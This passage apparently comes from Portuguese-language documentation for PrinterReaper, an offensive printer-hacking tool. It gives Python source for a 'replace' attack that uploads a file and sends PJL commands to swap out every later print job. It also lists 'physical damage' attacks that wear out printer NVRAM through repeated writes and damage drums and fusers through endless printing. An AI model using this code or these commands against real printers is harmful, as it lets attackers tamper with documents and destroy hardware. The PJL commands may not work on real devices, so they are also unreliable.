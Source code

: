 **Implementação**:
```python
def do_replace(self, arg):
    """Replace attack - substitute entire print job content"""
    if not arg:
        output().errmsg("Usage: replace <replacement_file>")
        output().info("Replaces all print jobs with specified file content")
        return
    
    if not os.path.exists(arg):
        output().errmsg(f"File not found: {arg}")
        return
    
    replacement = file().read(arg)
    if not replacement:
        return
    
    output().warning("DANGER: Will replace ALL print jobs with your content!")
    
    try:
        confirm = input("Continue? (yes/no): ")
        if confirm.lower() != 'yes':
            return
    except (EOFError, KeyboardInterrupt):
        return
    
    # Upload replacement content
    self.put("0:/replacement.ps", replacement)
    
    # Configure job interception and replacement
    # This varies by printer model
    # HP example:
    self.cmd("@PJL SET JOBREPLACE=ON")
    self.cmd("@PJL SET JOBREPLACEFILE=\"0:/replacement.ps\"")
    
    output().info("Replace attack activated")
    output().warning("All subsequent print jobs will be replaced!")
```

---

## 6️⃣ PHYSICAL DAMAGE (2/3 = 67%)

### ✅ 6.1 NVRAM Wear-out
**PJL**: `@PJL SET NVRAM=value` (repeated)  
**PrinterReaper**: `destroy`  
**Efeito**: Dano físico ao chip NVRAM  
**Recuperação**: Substituição de hardware

### ✅ 6.2 Drum/Fuser Damage
**PJL**: Comandos de impressão contínua  
**PrinterReaper**: `loop print` + large files  
**Efeito**: Desgaste prematuro de componentes
